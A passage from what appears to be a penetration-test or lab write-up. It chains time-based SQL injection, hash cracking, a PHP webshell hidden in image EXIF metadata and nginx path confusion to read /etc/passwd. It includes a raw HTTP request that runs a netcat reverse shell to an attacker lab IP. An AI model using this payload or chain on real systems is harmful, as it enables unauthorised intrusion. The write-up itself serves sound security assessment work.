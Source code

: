 The sqlmap manage to retirve the username and hash of the password using timebased queries. The hash was retrived by simple dictonary attack.


![sqlmap](../master/static/sqli_sqlmap.jpg)


The credentials can be used to login to applcation. Please note that admin password is very weak and can be easly brute force, if no SQLi was found.

After logging in to the admin acount we see two things. One is the issued cookie does not have Httponly flag (vulnerability number 7). The second is interesting functionallity that is worth testing which is file upload functionallity. When file is upload the following POST request is being sent.

![upload](../master/static/sqli_upload.jpg)

The functiallity if the php webshell can be upload. However, every test to upload the webshell failed. It seems that the application only accepts a valid image file. The image files can also contain the metadata, so the next step would be to inject php webshell into image metadata and try to convince nignx server to interpret the image file as php code.

The webshell has been injected as a comment image metadata using exiftool.

![exif](../master/static/sqli_exif.jpg)


Since this is valid image file it was successfully accepted. Then to enforce webserver to inerpret image file as a text, the attacker sands the request to treat the image as directory which consist the webshell. The following screenshot presents the content of /etc/passwd

![etc](../master/static/sqli_etc.jpg)

Though, the webshell is not very intercative. So the attacker might try to achive reverse shell by running the sending the follwing payload:
```
GET /admin/uploads/1566485493.jpg/webshell.php?cmd=nc%20192.168.23.130%204444%20-e%20/bin/sh HTTP/1.1
Host: 192.168.23.132
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=8nnh5j8ud6ht97j1g2cvhd4gg3
Connection: close
Upgrade-Insecure-Requests: 1


```

![shell](../master/static/sqli_shell.jpg)


## Recommendations

Last chapter describes the recommendation for remediation of each discovered vulnerability. Additionally there has been some enhancement proposed to ensure the highest risk mitigation.
